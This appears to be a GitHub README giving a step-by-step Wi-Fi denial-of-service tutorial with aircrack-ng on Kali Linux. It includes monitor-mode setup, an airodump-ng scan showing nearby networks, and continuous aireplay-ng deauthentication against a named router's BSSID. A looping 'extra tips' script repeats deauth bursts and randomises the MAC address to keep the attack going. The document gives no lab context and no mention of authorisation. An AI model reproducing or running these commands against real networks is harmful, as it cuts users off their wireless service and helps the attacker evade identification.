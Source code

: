 # DOS-Attack

---
**What is DOS ATTACK?**

In computing, a denial-of-service attack (DoS attack) is a cyber-attack in which the perpetrator seeks to make a machine or network resource unavailable to its intended users by temporarily or indefinitely disrupting services of a host connected to the Internet. Denial of service is typically accomplished by flooding the targeted machine or resource with superfluous requests in an attempt to overload systems and prevent some or all legitimate requests from being fulfilled.
For More Depth [Wikipedia](https://en.wikipedia.org/wiki/Denial-of-service_attack)

---

USING AIRCRACK-NG

```
root@kali:~# ifconfig

```
note down the name of your wireless interface
here **wlan0** is used and create a .sh file (use your favourite text editor)
```
root@kali:~#vi monitor.sh

(for using vim editor type)

insert
type whatever content u want to whatever
esc
:wq)

```
[For More Vim Command](https://www.tutorialspoint.com/vim/vim_editing.htm)

*And type the following command*

```
#!/bin/bash

ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
iwconfig wlan0 | grep Mode

```

In Another tab:

```
root@kali:~# chmod +x monitor.sh
root@kali:~# ./monitor.sh

(some expected output)

wlan0     IEEE 802.11  Mode:Monitor  Frequency:2.462 GHz  Tx-Power=20 dBm

root@kali:~#airodump-ng wlan0

(scanning)

some expected output

CH 10 ][ Elapsed: 1 min ][ 2020-05-01 06:41 ][ interface wlan0 down                                                                                                                                             

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                                                                                                 

 BE:2A:16:CC:C4:C0  -31      100        0    0  11  180   WPA2 CCMP   PSK  ABHIJIT                                                                                                                               
 BE:2F:3D:31:8A:CC  -24      151        0    0   1   65   WPA2 CCMP   PSK  vivo 1609                                                                                                                             
 C4:E9:0A:E3:5D:3C  -62      179        0    0   6  270   WPA2 CCMP   PSK   AUTO CENTER

 ```

Note down the channel no. and BSSID of the router you want to attack here we are attacking ESSID "ABHIJIT"
channel=11
**BBSID=BE:2A:16:CC:C4:C0**

```
root@kali:~# iwconfig channel 11

(switching to the required channel)

root@kali:~# aireplay-ng -0 0 -a BE:2A:16:CC:C4:C0 wlan0 -e ABHIJIT

```

('-0' is used for deauthentication the next number denotes the number the deauthentication packets to be sent if it is 0 it will send continuously untill stopped manually)

#####EXTRA TIPS (IFF not using virtual systems)

creating a .sh which will continuously send some deauthentication packets and then change the mac address of the system , sleeping for some seconds and then the process carries on

```
root@kali:~# vi dos.sh

#!/bin/bash


while true
do
        iwconfig wlan0 channel $1
        aireplay-ng -0 5 -a $2 wlan0
        ifconfig wlan0 down
        macchanger -r eth0 | grep "New MAC"
        ifconfig wlan0 up
        sleep 3

done

```
**In different Tab**

```
root@kali:~#chmod +x dos.sh

root@kali:~#./dos.sh 11 BE:2A:16:CC:C4:C0

```

(dynamic value is used in the dos.sh, 11 goes to $1 , BE:2A:16:CC:C4:C0 goes to $2)


**NOTE**
>after the process the wireless interface can show trouble so run the below code or  reboot your system
```
root@kali:~#service network-manager restart

```
[ALL CODES](https://github.com/kaki-epithesi/dos-attack)
